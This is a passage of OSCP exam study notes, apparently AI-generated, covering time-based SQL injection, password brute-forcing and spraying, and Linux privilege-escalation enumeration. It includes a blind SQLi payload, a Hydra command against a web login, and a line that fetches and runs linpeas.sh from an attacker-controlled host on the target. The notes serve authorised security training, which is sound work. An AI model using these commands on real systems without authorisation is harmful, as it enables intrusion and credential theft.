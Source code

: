 2. **Time-Based Injection**  
   - For MySQL, you can use `SLEEP()` or `BENCHMARK()`, e.g.:  
     ```
     id=1' AND IF(substr((SELECT database()),1,1)='m', SLEEP(3), 0)-- 
     ```
   - If the page takes noticeably longer, the condition is true.  
   - You systematically guess each character.
- **Password Attacks** – While brute-force is generally not productive during OSCP exam (except perhaps a **very** obvious easy password), use **Hydra** or **Medusa** if you have a small list of usernames and suspect a common password. For example, `hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET> http-post-form "/login:username=^USER^&password=^PASS^:Invalid" -t 4` for a web login. A more targeted approach is **password spraying**: if you find a username list (from SMB/LDAP/SMTP enumeration), try a few common passwords (Spring2025!, CompanyName123) across all users rather than deep brute force. Also, always test any credentials you find on all services (reuse is common). For example, a password found in an FTP file might work for SSH or MySQL.

### Privilege Escalation
Once you have a foothold on a machine (shell access), enumerate and exploit to get higher privileges (root/Administrator). Below are key techniques and tools:

**Linux Privilege Escalation:**  
- *Manual Enumeration*: Examine the system configuration:
  - **Sudo Rights** – `sudo -l` to list commands you can run as root or other users without a password ([oscp mindmap.pdf](file://file-C4m8N2pZEBnAJotUKyWWMX#:~:text=Manual%20Approaches)). Any entry like `(ALL) NOPASSWD: <command>` can likely be exploited (search **GTFOBins** for the command to find a way to escalate).
  - **SUID/SGID Files** – `find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null` lists SUID files. If any uncommon binary is present or a common one with misconfiguration, it may be exploited (e.g., custom scripts, or known exploits like `nmap` in interactive mode, `perl` with SUID bit, etc.) ([oscp mindmap.pdf](file://file-C4m8N2pZEBnAJotUKyWWMX#:~:text=Check%20For%20Sudoers%20Misconfigurations%20%EE%A4%80)).
  - **World-Writable Files/Dirs** – e.g., check `/etc` for world-writable files, or cron jobs (`/etc/crontab`, `/etc/cron.d/`) to see if you can inject commands.
  - **Kernel/OS** – `uname -a` and `cat /etc/issue` or `lsb_release -a` to find kernel version and distro. If kernel is old, search for local exploit (e.g., DirtyCow, overlayfs). Use `searchsploit linux kernel <version>` or refer to **Linux Exploit Suggester** (run `linux-exploit-suggester.sh`) to find matching exploits.
  - **Processes/Services** – `ps -aux` and `netstat -tunlp` (or `ss -tulpn`) to see running services and open ports from the inside. You might find an internal service listening (like an admin panel on localhost or an outdated database version) that you can exploit now that you are local (port forwarding might be needed).
  - **Passwords in Memory/Configs** – Look for configuration files with credentials (common locations: `~/`, `/var/www/html`, config files for Apache, MySQL, FTP, etc.). If you find hashes in `/etc/shadow`, consider cracking them offline.
  - **Scheduled Tasks / Cron Jobs** – `crontab -l` (for current user) and check `/etc/crontab` and `/etc/cron.*/*`. If a cron job runs a script as root and you can edit that script or the path it’s in, you can inject your payload.
  - **NFS root_squash** – If the target exports NFS and you have root access on a connected client (or you can mount as root), creating a suid file on the share could lead to root on the target.
- *Automated Tools*: **LinPEAS** and **LinEnum** are popular scripts that automate many checks ([oscp mindmap.pdf](file://file-C4m8N2pZEBnAJotUKyWWMX#:~:text=Automated%20)). For example, run `wget <YourIP>/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh` from the target. They highlight potential priv-esc vectors (SUID files, CAP_* capabilities, sudo rules, etc.). Be mindful: OSCP rules allow **enumeration scripts** but not auto-exploitation; LinPEAS now sometimes suggests exploits, so use it for enumeration and exploit manually ([oscp mindmap.pdf](file://file-C4m8N2pZEBnAJotUKyWWMX#:~:text=linkedin)). Another tool is **LES (Linux Exploit Suggester)** which, given kernel version, lists known exploits ([oscp mindmap.pdf](file://file-C4m8N2pZEBnAJotUKyWWMX#:~:text=Automated%20)).
- *Common Linux PrivEsc Scenarios*: Exploiting writable `/etc/passwd` or `/etc/shadow`, abusing Docker or LXC (if you are in the docker group, you can escalate via container escape), exploiting PATH injection (e.g., cron job running as root that calls an external command without full path – you can create a malicious same-named file in a writable directory that comes earlier in PATH).
